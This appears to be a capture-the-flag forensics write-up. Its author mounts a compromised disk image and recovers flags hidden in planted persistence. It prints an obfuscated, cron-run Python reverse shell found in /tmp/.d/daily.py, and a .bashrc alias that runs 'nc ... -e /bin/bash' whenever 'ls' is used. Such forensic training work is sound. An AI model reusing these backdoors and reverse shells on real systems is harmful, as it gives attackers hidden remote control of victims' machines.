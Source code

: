 Uh Oh it seems a few bad fish got into the fish tank!

Can you find them all?

Challenge File: [badfish.zip](https://ranges.io/event/3d1339dc-d5ab-11ee-9c74-366662326231/file/cb360bb4-d26c-11ee-acd1-626166623361)

Zip Password: bAdFi5h

DISCLAIMER: Flag will start with the number of the challenge it belongs to.

EXAMPLE: 1_This_Is_a_Fake_Flag

Downloaded badfish.img.

Trying to mount. 

First step: 

It seems that you have an image of a harddisk, not a partition. You need to find out at which place in the image the actual partition begins.

```bash
fdisk -l badfish.img
Disk badfish.img: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0xae84473a

Device       Boot Start     End Sectors  Size Id Type
badfish.img1 *     2048 2097151 2095104 1023M 83 Linux
```

Fdisk shows offset in sectors, 2048, the mount command needs bytes. Sector size 512 bytes and there are 2048 sectors, so offset in bytes is 512 * 2048 = 1,048,576



`mount -t -msdos -o loop,offset=1048576 badfish.img /media`

Make sure to mount to a better location next time and not all of media

Started looking around, and looked in /tmp.

Found a weird hidden directory `.d` which contained a file daily.py

Contents of daily.py:

```python
import base64

test = ""
for i in ['YmFzZTY0LmI2NGRlY29kZSgnQ21aeWI=', 'MjBnYjNNZ2FXMXdiM0owSUdSMWNESUs=', 'Wm5KdmJTQnpkV0p3Y205alpYTnpJR2w=', 'dGNHOXlkQ0J5ZFc0S2FXMXdiM0owSUg=', 'TnZZMnRsZEFwelBYTnZZMnRsZEM1emI=', 'Mk5yWlhRb2MyOWphMlYwTGtGR1gwbE8=', 'UlZRc2MyOWphMlYwTGxOUFEwdGZVMVI=', 'U1JVRk5LUXB6TG1OdmJtNWxZM1FvS0M=', 'STBYelZ1TTJGcmVWODFia1ZoYTFraUw=', 'RGc0T0RncEtRcGtkWEF5S0hNdVptbHM=', 'Wlc1dktDa3NNQ2tLWkhWd01paHpMbVo=', 'cGJHVnVieWdwTERFcENtUjFjRElvY3k=', 'NW1hV3hsYm04b0tTd3lLUXB5ZFc0b1c=', 'eUl2WW1sdUwySmhjMmdpTENJdGFTSmQ=', 'S1FvPScp']:
    test = test + base64.b64decode(i).decode()
eval(test)
print(test)
```

Added the print command myself and received this output python which contains the flag for number 4:

```python
b'\nfrom os import dup2\nfrom subprocess import run\nimport socket\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("4_5n3aky_5nEakY",8888))\ndup2(s.fileno(),0)\ndup2(s.fileno(),1)\ndup2(s.fileno(),2)\nrun(["/bin/bash","-i"])\n'
```

There is a reference to this file in the cronjobs, cron.d where it points to this file. I assume this was the proper approach to find it. 

Flag 4:

4_5n3aky_5nEakY

Looked in /home for users. Saw user nemo which didn't have much in their home directory besides the typical .profile, .bashrc, and .bash_logout. Checked profile first and left. Eventually came back and checked .bashfc and found flag 2 in this line: `alias ls='ls;nc 2_sM31ly_CaT 4454 -e /bin/bash'`. Will try the netcat to see if that means anything.

Flag 2:

2_sM31ly_CaT

Kept looking around and started scrolling through /usr/bin to find suspicious binaries. Found flag 3 in the dir listing.

Flag 3: 

3_5tr1nGs_r_BaD_4_f15H

